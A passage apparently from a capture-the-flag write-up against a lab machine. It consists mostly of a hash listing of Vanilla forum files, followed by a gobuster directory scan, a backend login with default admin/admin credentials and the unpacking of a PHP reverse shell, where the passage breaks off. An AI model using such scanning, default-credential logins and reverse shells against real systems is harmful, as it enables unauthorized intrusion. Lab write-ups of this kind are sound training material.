      2 48aec27a685c0a8e2e8cb0b1255dadda  ./3/plugins/EmojiExtender/emoji/yahoo/relieved.gif
      2 486a87d6c94893ebbb868ce73179d212  ./3/js/library/jquery.jcrop.min.js
      2 485420cb716b3184c5d7d1b9b5cb976d  ./3/plugins/EmojiExtender/emoji/little/eh@2x.png
      2 484ee9cc09ad24e836f0e7fcf537e99f  ./3/resources/fonts/vanillicon/vanillicon.svg
      2 48410cda19647b388b9eaab55fc209b0  ./3/applications/dashboard/design/images/vanilla-forums-dark-bg-87x40.png
      2 483f4abfe2c7147ad5a74618eb857639  ./3/resources/emoji/angry.png
      2 47d3e8e96ae2b95dce9702797ac42896  ./3/plugins/EmojiExtender/emoji/rice/chuffed@2x.png
      2 4684eefb2e609d52cb4f9668a5763704  ./3/vendor/vanilla/nbbc/doc/src/api_misc.tpl
      2 4639e871418d182ece05c31210fb38b7  ./3/applications/dashboard/scss/_toolbar.scss
      2 45c14a4f484fdfdd1f39a923477d71bd  ./3/vendor/vanilla/garden-http/composer.lock
      2 45b893dbf90efa481fae007abfd02a10  ./3/plugins/EmojiExtender/icon.png
      2 45b5a70c34f52df4fcb5db14f56144d0  ./3/plugins/ButtonBar/design/images/spoiler.png
      2 451883d676854362483b0547edaf8e67  ./3/plugins/EmojiExtender/emoji/yahoo/monkey.gif
      2 44da06fe0953c2f528e17bd0391800d3  ./3/resources/emoji/persevere.png
      2 44cca0f08ba64a1ac26b2f3392f0912a  ./3/plugins/EmojiExtender/emoji/little/mrgreen.png
      2 44a3a1a075bae42c3c84c704f4079282  ./3/plugins/Tagging/js/jquery.tokeninput.vanilla.js
      2 4457df68aec2dbee9c733602bc58e992  ./3/vendor/vanilla/nbbc/doc/src/install_unpack.tpl
      2 442ec7aaf2b06c5885c5de2d915784f4  ./3/js/library/jquery.tablednd.js
      2 43a0d837a700939bbda8feb76445bf28  ./3/applications/dashboard/views/empty.master.tpl
      2 434ef438945549c0d7c409af673d2a1a  ./3/js/easyXDM/cors/index.html
      2 42e8dfeb439e0c8ab6d7625d94c7ca45  ./3/plugins/EmojiExtender/emoji/little/star@2x.png
      2 428c1e6a17db17bd7a66ade17015792d  ./3/plugins/EmojiExtender/emoji/yahoo/tongue.gif
      2 4270b67efbebe38845b3d1e38feea295  ./3/plugins/SplitMerge/icon.png
      2 41fafca154ed0992d277959ba4167284  ./3/plugins/EmojiExtender/emoji/twitter/+1.png
      2 416d3959cf68fb3e107ce6b057930b0f  ./3/plugins/EmojiExtender/emoji/yahoo/cowboy.gif
      2 4168c2a0d7a48164820c938f23b21abc  ./3/vendor/vanilla/nbbc/doc/app_class.html
      2 40d51cde596aac05c272fbe878243ed2  ./3/plugins/EmojiExtender/emoji/twitter/rage.png
      2 40d2af97a41c3c631c35f7c6b91995f1  ./3/plugins/EmojiExtender/emoji/little/heartbreak.png
      2 407ae066812cda7cdc83e05a5ff40eb6  ./3/applications/dashboard/views/atom.master
      2 40665ac0eab36bfcc01afbaa6292577f  ./3/resources/emoji/blush.png
      2 4023d661ab52fa80f07aafad60a736e7  ./3/resources/emoji/scream.png
      2 3f7c2b9a9166a0a718380b3eb5aa8d42  ./3/plugins/EmojiExtender/emoji/little/smiley.png
      2 3ef4ba91099212299f2a307c646cf33d  ./3/plugins/editor/js/jquery.ui.widget.js
      2 3ef2a9a694c9aeacd9ffa46432a57100  ./3/applications/dashboard/js/applications.js
      2 3ee45ab519ccba3915e14e7646c900b8  ./3/plugins/editor/design/wysiwyg.css.map
      2 3e9a8010d2d1475e328bd08a2f78b6f8  ./3/plugins/EmojiExtender/emoji/little/silenced.png
      2 3e2f54fc261b1504fdecc3688eee6ba7  ./3/resources/emoji/astonished.png
      2 3e2ab5cc8301d9f3746661d3d22db8c7  ./3/applications/dashboard/design/images/vanilla-forums-light-bg-70x33.png
      2 3dbe0c88a4859c93fe1846beb8b230d1  ./3/plugins/EmojiExtender/emoji/little/skull@2x.png
      2 3dade6bbd21d3b4fa4ae42c4ba559bd0  ./3/plugins/EmojiExtender/emoji/yahoo/clap.gif
      2 3d84fdc7b6255f1053ca09fde571fcfe  ./3/vendor/vanilla/nbbc/doc/api_behv.html
      2 3d0c0b490470deaf29503674de5c2a06  ./3/resources/emoji/-1.png
      2 3cb0fee1445966c307bcab3e6ffccdd6  ./3/plugins/EmojiExtender/emoji/rice/unamused.png
      2 3c53cd85bf7e266eafc96bb80cef5e83  ./3/plugins/EmojiExtender/emoji/rice/fearful.png
      2 3be601c7c78559234158433d4f58dbfc  ./3/plugins/EmojiExtender/emoji/rice/glasses@2x.png
      2 3b05a013ec9a97370d41bb94a2d1b51c  ./3/applications/dashboard/js/colorpicker.js
      2 3af9d4db89c13abdb6708f974906441f  ./3/plugins/EmojiExtender/emoji/little/anguished.png
      2 3ac637821315bf8d53d68bcb331e470e  ./3/plugins/EmojiExtender/emoji/yahoo/cow.gif
      2 3a6e21470080624f06a99474214e957a  ./3/plugins/EmojiExtender/emoji/little/cry@2x.png
      2 3a29e7605d45b437dc98ed0dc9d511af  ./3/plugins/Tagging/design/tag.css
      2 3a1598154c6d0cab3cf3281387cb35ba  ./3/applications/dashboard/design/images/vanilla-logo-46px.png
      2 3957422d30eb8ed910bf848c2bb018dc  ./3/js/easyXDM/name.html
      2 38bd2dd05396481ad2bbcbadad4d0579  ./3/themes/2011Compatibility/design/custom.css
      2 38b7bdb3ed43c9718c56e847503e3afb  ./3/applications/dashboard/js/activity.js
      2 38a26a3e3e5bf1eb0898a646450fd61f  ./3/plugins/EmojiExtender/emoji/little/skull.png
      2 380e46d447ca4dcf78ea623f0613b3e6  ./3/plugins/EmojiExtender/emoji/little/chuffed.png
      2 37c1cbf73918b2ab2d07b66e8f48d52b  ./3/plugins/EmojiExtender/emoji/yahoo/who_me.gif
      2 37a26417dcfcee5fd6b99381fa7b382f  ./3/vendor/vanilla/nbbc/doc/src/bbc_col.tpl
      2 374d1d8a7195f77fee111d02c110d757  ./3/applications/dashboard/design/images/help-tn-200.jpg
      2 370272d498575305ecd6a8ec42480093  ./3/plugins/PrivateCommunity/icon.png
      2 36ea0a7b3d0582a375e74358e642d977  ./3/plugins/AllViewed/icon.png
      2 36dd124ffbe27a3c73a3011761c82d99  ./3/plugins/GooglePrettify/js/lang-n.js
      2 36d66b34303e5dc586eca6b9048bac58  ./3/plugins/EmojiExtender/emoji/yahoo/confused.gif
      2 36b684c5de4865d59c8bceefa337b63f  ./3/LICENSE.md
      2 3661cf76fd1af6286ad98fb2ce4c846f  ./3/plugins/editor/package.json
      2 36303902d1cb11d693a2d389fcb2769c  ./3/applications/dashboard/design/images/calendar.png
      2 36213e3db13c4ec444e8fba411642044  ./3/plugins/ButtonBar/design/images/image.png
      2 35b0123ec308f6426fae8c840b14bd73  ./3/plugins/editor/js/jquery.wysihtml5_size_matters.js
      2 35275b8bf98d9bcf5b4e645661d3eeb6  ./3/plugins/EmojiExtender/emoji/twitter/relieved.png
      2 351be36cba9dd4bd4848e85e25f9c0d9  ./3/plugins/EmojiExtender/emoji/rice/scream.png
      2 34d555b1cb69efb80fd47e5a8217e3b9  ./3/plugins/EmojiExtender/emoji/rice/naughty@2x.png
      2 34d1aa28eb61cb060a662b79711814f3  ./3/applications/dashboard/design/images/progress.gif
      2 3473e71140317a7aed29423382f09c1c  ./3/plugins/EmojiExtender/emoji/little/expressionless.png
      2 33b092bcf0b98edf1508162aae78e660  ./3/plugins/EmojiExtender/emoji/rice/+1@2x.png
      2 33a8c726bec321ade73040a006d4f889  ./3/plugins/EmojiExtender/emoji/little/smile.png
      2 33978b8e161aaec7dfe12704d80914b4  ./3/js/easyXDM/easyxdm.swf
      2 337cf77a4fb61830adfde7a405b0c8d4  ./3/resources/emoji/unamused.png
      2 336d93284fe4663676f9e486b16f26ca  ./3/vendor/vanilla/nbbc/doc/bbc_col.html
      2 32fd331f6c855e1bdaee43e6cd2629b2  ./3/plugins/EmojiExtender/emoji/yahoo/whistle.gif
      2 32a3894603c046dcb3885fbba41ddf05  ./3/applications/dashboard/design/images/dashboard-sprites.png
      2 3224bf644ac3ff06aca1988290f98937  ./3/plugins/GooglePrettify/js/lang-xq.js
      2 3165521b640fa0cb02e7262b4fa7a13d  ./3/vendor/vanilla/nbbc/smileys/teeth.gif
      2 30f864be18000f2d545c0ef54ca5dcb9  ./3/vendor/vanilla/garden-http/README.md
      2 30ccea20520b75d146fbe6ddf051dac7  ./3/conf/readme.txt
      2 2fd09e99778af8158f7ab38ea0f625aa  ./3/plugins/editor/js/jquery.iframe-transport.js
      2 2faddd4f765e4a09a32fc574a4b636ee  ./3/plugins/EmojiExtender/emoji/twitter/anguished.png
      2 2f6bce7aa77571e1a805b559132bd916  ./3/applications/dashboard/js/addons.js
      2 2f06fc634295b9793094b9d1c061666b  ./3/vendor/vanilla/nbbc/smileys/boggle.gif
      2 2edb31bd3d5892b478d80c5e29cdcad2  ./3/applications/dashboard/js/avatars.js
      2 2eb341c8eb3d889b390f2b29f87b7792  ./3/vendor/vanilla/nbbc/doc/api.html
      2 2e801db77b67444fffdcc7ce482fab09  ./3/vendor/vanilla/nbbc/doc/src/app_smiley.tpl
      2 2e60bd80b3d91ff4a3e2ae9dfa0b8356  ./3/plugins/EmojiExtender/emoji/yahoo/confounded.gif
      2 2e441c59aa43a4696f940259b6eb44c3  ./3/plugins/EmojiExtender/emoji/rice/crazy@2x.png
      2 2dd47954bb29eaee02ea0505dbd467aa  ./3/js/library/jquery.autosize.min.js
      2 2d7ff783ff1df5ba4b2818091ae9661a  ./3/vendor/vanilla/garden-http/LICENSE.md
      2 2d1f899d89ac8fc5cf579b745dd5df17  ./3/resources/emoji/heartbreak.png
      2 2d0b0013e665f4849e580fe8b0f4066a  ./3/plugins/EmojiExtender/emoji/rice/sarcastic@2x.png
      2 2d02df94381efdc0ab204f1143f25214  ./3/resources/emoji/disappointed_relieved.png
      2 2cd7917ece1524a45278744cd1c1bd60  ./3/vendor/vanilla/nbbc/smileys/confuse.gif
      2 2c8dede7bb95f3d6ff1a00851845c6ad  ./3/resources/fonts/vanillicon/vanillicon.woff
      2 2c6bd2c5c3310cfcf2b686ed6d13c03b  ./3/vendor/vanilla/nbbc/doc/bbc_list.html
      2 2c4cbbe66f5e0720287069f9ab7586d9  ./3/resources/emoji/sleepy.png
      2 2bef2e33716b78290363fc8a9eadfb85  ./3/applications/dashboard/design/images/profile-sprites.png
      2 2b7863c9f642bb07427ea8e66a021450  ./3/applications/dashboard/design/images/vanilla-logo-46px@2.png
      2 2b396963e0ed3d2f3a1ec29a985a8b5a  ./3/plugins/EmojiExtender/emoji/twitter/smirk.png
      2 2b1ca042e119744d10077f4614a6b6b5  ./3/plugins/EmojiExtender/emoji/yahoo/preview.html
      2 2a190311b074fd52d03cee5fcff9797d  ./3/vendor/vanilla/nbbc/doc/src/api_core.tpl
      2 29c07322636a3be7f9c53881240bcbb7  ./3/plugins/EmojiExtender/emoji/yahoo/blush.gif
      2 29bafec54c33ab644382410113c955d8  ./3/applications/dashboard/design/.csslintrc
      2 29a2f9df92cde9e49b332038721eb8d4  ./3/applications/dashboard/js/email.js
      2 298047d4a9cb01c993d951568a9a92e1  ./3/plugins/StopForumSpam/icon.png
      2 2958f7a7c3a84e21802af6685625e3c6  ./3/vendor/vanilla/nbbc/doc/api_trim.html
      2 2933b90c12f4431a51aafda6f17d9df4  ./3/js/library/magnific-popup.min.js
      2 2930e40bdb83f804d0306cb8b121ce35  ./3/applications/dashboard/design/authentication.css
      2 28a75a87f4a7ef045e267e82efd11e0a  ./3/applications/dashboard/design/images/welcome-screenshot.png
      2 2864d9a1e4941d0b5c890cd58e0b0176  ./3/themes/2011Compatibility/design/custom_terminal.css
      2 283fefc436f527df731c611e8a4828a2  ./3/applications/dashboard/design/images/connection-64.png
      2 27f7f86ae13401a3192313528d637f6f  ./3/plugins/Twitter/design/help-consumervalues-sm.png
      2 27e8ced9e43544028acc1ee044bfe1a5  ./3/library/vendors/Minify/README.txt
      2 27d4e83884e9e27066f7e0aa6cba0838  ./3/plugins/VanillaInThisDiscussion/icon.png
      2 27b429b67e05ab808bb88dd82a0c8a90  ./3/plugins/EmojiExtender/emoji/twitter/naughty.png
      2 275062c0f38ff14d2e159067a28bbee3  ./3/applications/dashboard/views/default.master.tpl
      2 26e2f61170687331a63ad87af8c3881c  ./3/vendor/vanilla/nbbc/doc/usage_enh.html
      2 26d61b7ee2d94b9cf2f518cb75023309  ./3/plugins/EmojiExtender/emoji/yahoo/chicken.gif
      2 26ae831358b85f276b7882d0c4cb5746  ./3/resources/emoji/bawling.png
      2 26a8df516bfe1572f4fb760d6d1b0eeb  ./3/plugins/EmojiExtender/emoji/twitter/bleep_bloop.png
      2 268d032205836327e95db04e83adc486  ./3/resources/emoji/sleeping.png
      2 2673111084f3a0a1c1c263412d37c771  ./3/vendor/vanilla/nbbc/doc/bbc_align.html
      2 2638626df39915ed83630a266b9301ed  ./3/themes/2011Compatibility/design/screenshot_lemonsea.png
      2 2634867352a1a7b66fe365269514f3c4  ./3/applications/dashboard/design/images/upload-progress-back.gif
      2 259c5de072791e4426dc7adbd7e042d3  ./3/themes/mobile/screenshot.png
      2 258c61ad8146b31a03f6f39ef0a36605  ./3/plugins/EmojiExtender/emoji/twitter/love.png
      2 2562e797c5d84142501f68ff89df35d0  ./3/vendor/vanilla/nbbc/doc/src/api_repl.tpl
      2 24f9d528570a7c3b0109086ae4508e9e  ./3/plugins/EmojiExtender/emoji/rice/chuffed.png
      2 24f0b54606abc6347d132ef11bc144c1  ./3/plugins/EmojiExtender/emoji/yahoo/triumph.gif
      2 24e62de47246959274a3b66b07214a46  ./3/applications/dashboard/js/bans.js
      2 248e7fed197d5ac6fdb256068b41a726  ./3/js/easyXDM/easyXDM.js
      2 24575d73ed8ade63a16d07d09124c67c  ./3/plugins/EmojiExtender/emoji/twitter/mask.png
      2 24396d8ec8dcfece9354762b62b4255c  ./3/plugins/EmojiExtender/emoji/rice/+1.png
      2 24378a217fd5d788b86756670dd09dc8  ./3/plugins/GooglePrettify/js/lang-scala.js
      2 242d4fa960bb30d3ed1d75bc188b3446  ./3/plugins/EmojiExtender/emoji/little/expressionless@2x.png
      2 23fac0a7bd43f25b085b704bf9e644d4  ./3/vendor/vanilla/nbbc/LICENSE
      2 23db1a8f183e15da5f9996c8d22f3288  ./3/vendor/vanilla/nbbc/doc/install_req.html
      2 23b3eabe540972b02610a5b94948d9f6  ./3/vendor/vanilla/nbbc/doc/src/template.tpl
      2 23b35c4038f5e64ccaced271c1bece84  ./3/plugins/editor/scss/partials/_fileupload.scss
      2 23985204c481c1ce6276d54220e733e3  ./3/plugins/EmojiExtender/emoji/little/naughty.png
      2 238e689dcebc0b3d90f5a1c8a0845c5a  ./3/themes/EmbedFriendly/design/custom.css
      2 23693af813379acbff4b4314496c391e  ./3/applications/dashboard/design/images/welcome-vid-users.png
      2 22e5e6a22ad842a3a15d1a6e51ae9f68  ./3/vendor/vanilla/nbbc/smileys/worry.gif
      2 22812fc5874c5f48d8cf88da0c9095b4  ./3/resources/emoji/mask.png
      2 2278389bebbe852a6f7ddcd63aa87142  ./3/plugins/EmojiExtender/emoji/rice/sunglasses@2x.png
      2 22589f534fb310b6c6df5df3e1e27b76  ./3/plugins/GooglePrettify/js/lang-basic.js
      2 2224a814c9c83af172d60eaac5561cf2  ./3/plugins/EmojiExtender/emoji/rice/pirate.png
      2 221b8eb546ac931bbee08b5ff6296fb1  ./3/plugins/EmojiExtender/emoji/yahoo/wink.gif
      2 221b18021cfa99686cdb72f14e98ac86  ./3/resources/emoji/grin.png
      2 2214eb43a03cc1344218afb396c0eac7  ./3/plugins/EmojiExtender/emoji/little/awesome.png
      2 218cd30d9ffa70917a50c81510004ff0  ./3/applications/dashboard/scss/legacy/_style.scss
      2 2160e603ce48a15c989b593eab6fc52b  ./3/plugins/EmojiExtender/emoji/twitter/kissing_wink.png
      2 212f8aa161be251e110e4b517a8d5104  ./3/plugins/EmojiExtender/emoji/rice/dizzy.png
      2 21285264dd43614ede0d1858ac128246  ./3/plugins/EmojiExtender/emoji/little/preview.html
      2 20b3865231a533e945981bddf81d3ab5  ./3/plugins/EmojiExtender/emoji/yahoo/sunglasses.gif
      2 20ae8529cccb5221395b1457c6e4dfbe  ./3/plugins/GooglePrettify/js/lang-wiki.js
      2 2058d995289ced5357f089b7080001eb  ./3/vendor/vanilla/nbbc/tools/Makefile
      2 2051fd353b35eabcd16ccebe6b55a755  ./3/plugins/EmojiExtender/emoji/yahoo/one_finger.gif
      2 202858840ad45a69e8115d729a168138  ./3/applications/dashboard/design/images/vanilla-forums-dark-bg-70x33.png
      2 2016f9f7925056ea5a816bafd1e6e3f6  ./3/js/library/jquery.popup.js
      2 1ff23b047c988e9cb58e50c5f26a84d6  ./3/plugins/EmojiExtender/emoji/yahoo/rock_on.gif
      2 1fee2cd9bd457864dc98a891db75312b  ./3/plugins/Tagging/design/tag.png
      2 1fa2dbb206555521f2443810e90f6561  ./3/plugins/EmojiExtender/emoji/rice/lol@2x.png
      2 1e8ed8d8773b9ae8c1a430851227adfb  ./3/plugins/EmojiExtender/emoji/yahoo/ohstop.gif
      2 1dce15dbdfdfacd88526e976928d0e73  ./3/vendor/vanilla/nbbc/doc/intro_license.html
      2 1da8faca63522063d4cebafb09480987  ./3/plugins/Twitter/twitter.svg
      2 1d1b2638f8d608d90b7dd2a50a765aa0  ./3/vendor/vanilla/nbbc/doc/src/usage_smiley.tpl
      2 1cdb4049bd7f79f56a293f17fa3b4847  ./3/plugins/EmojiExtender/emoji/twitter/yum.png
      2 1cb8fdfb7b014171a518f0e47482c61b  ./3/plugins/ButtonBar/design/images/italic.png
      2 1c33c04683fc076e0c6c65f2b424e1aa  ./3/themes/2011Compatibility/design/star_sprite_terminal.png
      2 1b07ffa5c489633ca0d9fe96f0ca9cca  ./3/resources/sass/_vanillicon-font.scss
      2 1afce03664cc5c802f07ff63d3dea4a8  ./3/plugins/editor/js/settings.js
      2 1ad0a9c45b5ab11d02fb49858b732554  ./3/vendor/vanilla/nbbc/doc/intro_over.html
      2 1ab4d37a840c3aab4cfb9edaa0ce1370  ./3/plugins/EmojiExtender/emoji/yahoo/bring_it.gif
      2 1a75b9de56e5ccf478550aa4d4b7414c  ./3/applications/dashboard/scss/.scss-lint.yml
      2 1a47e2e214ee0167e5dcdae926f850eb  ./3/applications/dashboard/views/popup.master.tpl
      2 1a27a3a2abccc44d9a41a3058022998c  ./3/plugins/EmojiExtender/emoji/twitter/smiley.png
      2 19e2a735d436fc84891fd1208ebe2189  ./3/plugins/EmojiExtender/emoji/twitter/twitter-icon.png
      2 19c928834599514af37bbbf2d2e5f613  ./3/applications/dashboard/design/images/welcome-vid-embed.png
      2 1902ef92e111fe7481a89eed9095ba9e  ./3/plugins/Facebook/icon.png
      2 1893ed103fe0bec12c4d920141f9f012  ./3/vendor/vanilla/nbbc/doc/src/install_req.tpl
      2 1823cdb0e4b786a7fb8acb6c16d862fc  ./3/plugins/EmojiExtender/emoji/yahoo/loser.gif
      2 1822893a1e1985a6c3c180e538c617ee  ./3/plugins/EmojiExtender/emoji/rice/blush.png
      2 181682a26351fcd0c496400a88946b11  ./3/applications/dashboard/js/user.js
      2 177541f132ab4a026a806f5bfb4bedc2  ./3/resources/emoji/warn.png
      2 1747f86313c0b1a799f46395e52e013c  ./3/js/library/jquery.duplicate.js
      2 16d1c89c992b3a7a3e616a6361defe2d  ./3/plugins/editor/js/jquery.fileupload-image.js
      2 165a6d0fcd5fd4b9c3d3e98f20814256  ./3/plugins/EmojiExtender/emoji/twitter/cookie.png
      2 161a4f62b05d6bf83801df6035c8cbec  ./3/vendor/vanilla/nbbc/smileys/smile3.gif
      2 15ff93202df6485fa8b2265446d5bd53  ./3/plugins/EmojiExtender/emoji/yahoo/rose.gif
      2 15f44e656a7cc6265218fd5fefc65f2b  ./3/plugins/EmojiExtender/emoji/yahoo/sleeping.gif
      2 15c1dd3f7101a91754e5b4786e370bdf  ./3/applications/dashboard/design/images/welcome-vid-banner.png
      2 152a742f3e102c2a0cfe1d821861ca18  ./3/applications/dashboard/design/previewtheme.css
      2 1520011968934519566a2c07532d8292  ./3/vendor/vanilla/nbbc/doc/src/toc.tpl
      2 1485dd53268c1b98f5a9abeb73e3cd68  ./3/plugins/EmojiExtender/emoji/twitter/bawling.png
      2 147fd6bfbda734493b9d85253e0fc74c  ./3/applications/vanilla/js/post.js
      2 146cdb5e7e1c19724a2297a0e3efd747  ./3/js/library/jquery.class.js
      2 143730b832c0b52e68545f729dd3d5f0  ./3/plugins/EmojiExtender/gulpfile.js
      2 13d292da5d93cf14323e7fc270adc1ba  ./3/plugins/EmojiExtender/emoji/little/wink@2x.png
      2 139d12f37c2e50a48718342b7758e2f8  ./3/vendor/vanilla/nbbc/doc/src/usage_img.tpl
      2 133795d83e3b708a1fdc6a26a7c5f5d0  ./3/plugins/EmojiExtender/emoji/little/proud@2x.png
      2 12fd5074759a06166dfb75f312f8378d  ./3/plugins/EmojiExtender/emoji/rice/cry@2x.png
      2 12f79b8475496b4bb6fe7d5b9bf07e34  ./3/plugins/editor/design/settings.css
      2 12f5ab39561a9505262409224aca4eab  ./3/themes/2011Compatibility/design/custom_grey.css
      2 12ad96c99e7d7247dbdf708e4c8131c7  ./3/plugins/EmojiExtender/emoji/rice/angry@2x.png
      2 11b9db688172514f08a60f1a81dd5706  ./3/plugins/EmojiExtender/emoji/rice/tongue@2x.png
      2 11538dc0c2585566cef029ba6b14d0d4  ./3/plugins/EmojiExtender/emoji/twitter/star.png
      2 10b79172251197f7eb353b20048b1a90  ./3/vendor/vanilla/nbbc/smileys/bigeyes.gif
      2 10a940e943d697b2da4829007ccbb989  ./3/applications/dashboard/design/images/inform-sprites.png
      2 10a0ff09d60f29a6efe0d96e993f1e55  ./3/vendor/vanilla/nbbc/doc/usage_how.html
      2 10368194fe0bf4373cdd68cc84fc2343  ./3/resources/emoji/mrgreen.png
      2 0fbe3290705359968c481139b76b8604  ./3/plugins/EmojiExtender/emoji/yahoo/rofl.gif
      2 0f925d8827d94ac93de3dabb4d00d7f1  ./3/applications/dashboard/design/admin.css.map
      2 0f8db942a256319fa30be4943eb03a4a  ./3/resources/emoji/expressionless.png
      2 0f8a821ea36697cd9d8e1593f63235fe  ./3/vendor/vanilla/nbbc/doc/src/usage_add.tpl
      2 0efbac314ca4f80a83c4463e9a198afa  ./3/resources/sass/_vanillicon-icons.scss
      2 0ec9047ea8d26205371d3c9810717dfa  ./3/plugins/EmojiExtender/emoji/little/unamused@2x.png
      2 0e684c1b3608de570e6333024cd54756  ./3/plugins/GettingStarted/icon.png
      2 0e3e991b2171526f711a4fdae0a08acd  ./3/plugins/GooglePrettify/js/prettify.js
      2 0e2eda843d85f83263ec5fd1709e6540  ./3/plugins/EmojiExtender/emoji/yahoo/lightbulb.gif
      2 0e0b26c86be27f619fd35da049ce4fae  ./3/plugins/editor/js/jquery.fileupload-process.js
      2 0d6ffa51deffbf038a401d2aabc20a89  ./3/plugins/EmojiExtender/emoji/yahoo/not_listening.gif
      2 0d6049ac1d29f270e759c51e3e29365b  ./3/applications/dashboard/js/settings.js
      2 0d0bbd789e16053b8413e78ba1b55942  ./3/vendor/vanilla/nbbc/doc/src/api_smiley.tpl
      2 0cbe323bb722a2c36eaaba1fc2bfa457  ./3/plugins/EmojiExtender/emoji/rice/wink@2x.png
      2 0c8ff55a0df9f2124cbfaceeac17ee2a  ./3/plugins/StopForumSpam/sfs.svg
      2 0c193a7260536102388cb5b7c5337ed1  ./3/js/library/jquery-ui.min.js
      2 0bbdaaf83ff982390e135dc4e32afb5c  ./3/plugins/EmojiExtender/emoji/little/lol@2x.png
      2 0b1586e8c113d3acb7c7d0726ede6862  ./3/plugins/EmojiExtender/emoji/little/angry.png
      2 0b0a26846c956dd801917d1a61804505  ./3/plugins/EmojiExtender/emoji/little/frown@2x.png
      2 0aee46a6ab6c3bdeb3f94ee6718b7dcb  ./3/plugins/EmojiExtender/emoji/little/star.png
      2 0a80d9c71c759ba75e7968420c23e431  ./3/vendor/vanilla/nbbc/smileys/wink.gif
      2 0a3ae700b0666ff579850f3f5a406424  ./3/applications/vanilla/js/discussions.js
      2 0a276a3af2923c0c48ab7bc2bfd77abf  ./3/vendor/vanilla/nbbc/doc/bbc.html
      2 0937814b2d792118db504af64d74a71d  ./3/resources/emoji/confounded.png
      2 0919fc8b3077f300829d43a37f92ba1a  ./3/plugins/EmojiExtender/emoji/yahoo/mrgreen.gif
      2 08d8e136ad2df3f0f5b4c7c66906fe11  ./3/js/library/jquery.dimensions.js
      2 08d446c6c338bc95cf466f6a84055252  ./3/themes/2011Compatibility/design/tile.png
      2 0825efabb8566c21c5d5a6da2f42201f  ./3/plugins/EmojiExtender/emoji/little/innocent@2x.png
      2 07b696b42f3644bea27addf1643bc519  ./3/themes/2011Compatibility/design/custom_red.css
      2 075e1a7054d216d0de0d34db3197aa29  ./3/vendor/vanilla/nbbc/powered_by_nbbc_small.png
      2 06e0153c539b342e8afde856261a12c0  ./3/plugins/EmojiExtender/emoji/rice/pirate@2x.png
      2 06cc6feee9e1da0860051ee6f65f3a76  ./3/plugins/EmojiExtender/emoji/twitter/preview.html
      2 068b240ce7b8eaa3e4d31e149ee81a9f  ./3/plugins/editor/design/editor.css
      2 0648c177a3288b005b662accf9613a10  ./3/vendor/vanilla/garden-http/composer.json
      2 063cfd2ed26604dc52d109965f085e26  ./3/themes/mobile/views/default.master.tpl
      2 0600d3344b04902cb27f4a425ff6c92d  ./3/plugins/EmojiExtender/emoji/little/wink.png
      2 05fa822c2d72f7b111dfdbdfd11b211c  ./3/applications/dashboard/js/messages.js
      2 05f4d5aa66c77cbf227c6632645e65e1  ./3/applications/dashboard/design/images/cog-expander.png
      2 05b96b11c420e1396a29e40e9853768e  ./3/library/vendors/oauth/doc/design.txt
      2 0590c306abfa191cf3157e35f19de286  ./3/plugins/EmojiExtender/emoji/little/sweat.png
      2 0548f6fae2564b813f4f38df9bd4e445  ./3/plugins/EmojiExtender/emoji/little/rage.png
      2 050421591359f48a4372ea3207c08e14  ./3/plugins/EmojiExtender/emoji/twitter/worried.png
      2 04b38e06af5921576e1c6ba8011d08bd  ./3/plugins/editor/design/settings.css.map
      2 048610b56d6f7c9909c69d6bae09c6dd  ./3/plugins/EmojiExtender/emoji/twitter/tired_face.png
      2 0424bd1bc9da8d22f05240eb7ecbdf7c  ./3/vendor/vanilla/nbbc/doc/src/usage_limit.tpl
      2 04249e678a582ff68c43d8b046299959  ./3/plugins/EmojiExtender/emoji/rice/silenced@2x.png
      2 03c65a2e4b2da9f0125ea18cda4b56c5  ./3/applications/dashboard/js/registration.js
      2 033ee0d8030a43813043fd4040f62781  ./3/vendor/vanilla/nbbc/doc/bbc_ctr.html
      2 032b6dd8b8f52c6e7b476d033aa36ddb  ./3/plugins/EmojiExtender/emoji/yahoo/disappointed.gif
      2 02f5b7095fc9d557d1a22866c558a221  ./3/plugins/EmojiExtender/emoji/yahoo/weary.gif
      2 02b42bae24697cc19724bfbd0d7e16c7  ./3/vendor/vanilla/nbbc/doc/app_enhflags.html
      2 026548e6a16237be81882ec4a42a0833  ./3/plugins/EmojiExtender/emoji/little/-1@2x.png
      2 01a0aa96c681a3b4a21972c383a9938c  ./3/plugins/EmojiExtender/emoji/little/awesome@2x.png
      2 0159f1bde03e2dfa53504a62aa07ed59  ./3/plugins/EmojiExtender/README.md
      2 012d1dd1748af1413085b7aa669dbb81  ./3/plugins/EmojiExtender/emoji/little/innocent.png
      2 00e196b5f2c8d0500566757306af0925  ./3/resources/emoji/innocent.png
      2 0099019e50c4cb7a976678104d16b458  ./3/resources/emoji/grimace.png
      2 00966925f0b87642a24efbfdc8f10f04  ./3/plugins/ButtonBar/design/images/url.png
      2 0020cb1f21659120e56e9673ba384c6a  ./3/vendor/vanilla/nbbc/doc/src/app_enhflags.tpl
      1 bfb561e4c758aa60d3341e93cc314b29  ./3/README.md
      1 9b01fc9e0129adc080344653fbcbbc0f  ./3/vendor/composer/LICENSE
      1 310c4e785c4c874a8a51ea096c578f46  ./hashes
      1 0d50f98739b3dc65a52005a8ce6cb51c  ./3/README.md
      1 084a034acbad39464e3df608c6dc064f  ./3/vendor/composer/LICENSE
root@kali:~/october/vanilla#
```





```sh
root@kali:~/october# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.16 -t 25

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.16/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/blog (Status: 200)
/forum (Status: 200)
/themes (Status: 301)
/modules (Status: 301)
/account (Status: 200)
/tests (Status: 301)
/storage (Status: 301)
/plugins (Status: 301)
/backend (Status: 302)
/Blog (Status: 200)
/vendor (Status: 301)
/config (Status: 301)
/Forum (Status: 200)
/error (Status: 200)
/Account (Status: 200)
/0404 (Status: 200)
/forgot-password (Status: 200)
```

###### Reverse Shell

```
http://10.10.10.16/backend
admin
admin
```






```sh
root@kali:~/october# tar xvzf php-reverse-shell-1.0.tar.gz
php-reverse-shell-1.0/
php-reverse-shell-1.0/COPYING.GPL
php-reverse-shell-1.0/COPYING.PHP-REVERSE-SHELL
php-reverse-shell-1.0/php-reverse-shell.php
php-reverse-shell-1.0/CHANGELOG
root@kali:~/october#
root@kali:~/october# cd php-reverse-shell-1.0/
root@kali:~/october/php-reverse-shell-1.0# ls
CHANGELOG  COPYING.GPL  COPYING.PHP-REVERSE-SHELL  php-reverse-shell.php
